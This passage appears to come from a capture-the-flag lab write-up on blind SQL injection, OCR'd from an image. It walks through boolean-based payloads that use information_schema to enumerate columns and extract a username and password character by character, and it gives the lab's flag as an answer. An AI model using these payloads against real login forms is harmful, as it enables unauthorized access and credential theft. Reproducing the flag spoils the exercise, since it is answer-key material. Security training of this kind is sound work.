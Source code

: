 Lastly, we now need to enumerate the column names in the users table so we can properly search it for login credentials. Again using the information_schema database and the information we've already gained, we can start querying it for column names. Using the payload below, we search the columns table where the database is equal to sqli_three, the table name is users, and the column name begins with the letter a.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named id , you'll append that to your original payload (as seen below).

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username which you can use the payload below:

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Which, once you've cycled through all the characters, you will confirm the existence of the username admin . Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.

You can now use the username and password you've enumerated through the blind SQL Injection vulnerability on the login form to access the next level.
```
What is the flag after completing level three?
> THM{SQL_INJECTION_1093}
```

## Task 8 - Blind SQLi - Time Based

#### Time-Based
A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.

So, for example, when trying to establish the number of columns in a table, you would use the following query:
